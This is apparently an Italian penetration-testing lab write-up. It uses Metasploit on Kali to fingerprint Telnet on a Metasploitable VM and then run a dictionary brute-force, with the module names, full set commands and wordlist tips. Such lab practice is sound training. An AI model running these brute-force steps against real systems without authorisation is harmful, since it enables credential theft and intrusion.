 Scenari e Configurazioni Preliminari
Configurazione degli IP:
Kali Linux: 192.168.1.228
Metasploitable: 192.168.1.218
Obiettivo: Verificare la versione di Telnet su Metasploitable, identificare vulnerabilità e simulare un attacco brute-force utilizzando dizionari.
Passaggi per l'Esercizio
1. Identificazione della Versione di Telnet
Modulo utilizzato: auxiliary/scanner/telnet/telnet_version
Comandi principali:
Impostare l'IP della macchina target:
bash
Copia codice
set RHOST 192.168.1.218
Eseguire il modulo:
bash
Copia codice
run
Risultati attesi:
Visualizzazione delle informazioni sul servizio Telnet della macchina target.
Raccolta di dettagli utili per ulteriori analisi.
2. Simulazione di un Attacco Brute-Force su Telnet
Modulo utilizzato: auxiliary/scanner/telnet/telnet_login
Passaggi:
Configurare i parametri del modulo:
IP della vittima:
bash
Copia codice
set RHOST 192.168.1.218
File di dizionario per utenti e password:
bash
Copia codice
set USER_FILE <path_file_utenti>
set PASS_FILE <path_file_password>
Abilitare l'arresto al primo successo:
bash
Copia codice
set STOP_ON_SUCCESS true
Regolare il numero di thread per ottimizzare la velocità:
bash
Copia codice
set THREADS 5
Avviare l'attacco:
bash
Copia codice
run
Risultati attesi:
Accesso forzato alla macchina target utilizzando un dizionario.
Identificazione di combinazioni valide di credenziali.
Considerazioni Tecniche
Ottimizzazione dell’Attacco Brute-Force:

Utilizzo di dizionari mirati con dettagli noti (es., lunghezza username, presenza di caratteri speciali) per migliorare l’efficienza.
Possibilità di usare dizionari più estesi come Xato o personalizzati.
Uso di Moduli Complementari:

Per una gestione avanzata, considerare l’uso di sessions per interagire direttamente con la macchina compromessa.
